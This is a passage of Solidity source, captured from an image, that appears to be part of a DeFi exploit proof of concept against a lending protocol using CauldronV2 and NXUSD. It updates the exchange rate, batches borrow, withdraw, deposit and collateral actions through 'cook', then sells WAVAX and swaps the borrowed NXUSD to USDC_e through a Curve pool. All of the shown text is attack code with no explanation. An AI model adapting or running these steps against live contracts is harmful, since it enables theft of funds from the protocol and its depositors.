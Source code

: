 │             0,                                                                                                                                                                                                                                       │
│             0,                                                                                                                                                                                                                                       │
│             0                                                                                                                                                                                                                                        │
│         );                                                                                                                                                                                                                                           │
│         // update rate                                                                                                                                                                                                                               │
│         CauldronV2.updateExchangeRate();                                                                                                                                                                                                             │
│         // cook function in CauldronV2                                                                                                                                                                                                               │
│         bytes[] memory datas = new bytes[](4);                                                                                                                                                                                                       │
│         datas[0] = abi.encode(borrowAmounts, address(this)); // type borrow                                                                                                                                                                          │
│         datas[1] = abi.encode(NXUSD, address(this), borrowAmounts,share); // type withdraw                                                                                                                                                           │
│         datas[2] = abi.encode(Pair, address(this), 45330977931305070, share); // type deposit                                                                                                                                                        │
│         datas[3] = abi.encode(-2, address(this), false); // Collateral enter market                                                                                                                                                                  │
│         CauldronV2.cook(actions, values, datas);                                                                                                                                                                                                     │
│                                                                                                                                                                                                                                                      │
│         // sell WAVAX`                                                                                                                                                                                                                               │
│         sellWAVAX();                                                                                                                                                                                                                                 │
│         // NXUSD -> avCRV -> USDC_e                                                                                                                                                                                                                  │
│         CRVPool1.exchange_underlying(                                                                                                                                                                                                                │
│             metaPool,                                                                                                                                                                                                                                │
│             0,                                                                                                                                                                                                                                       │
│             2,                                                                                                                                                                                                                                       │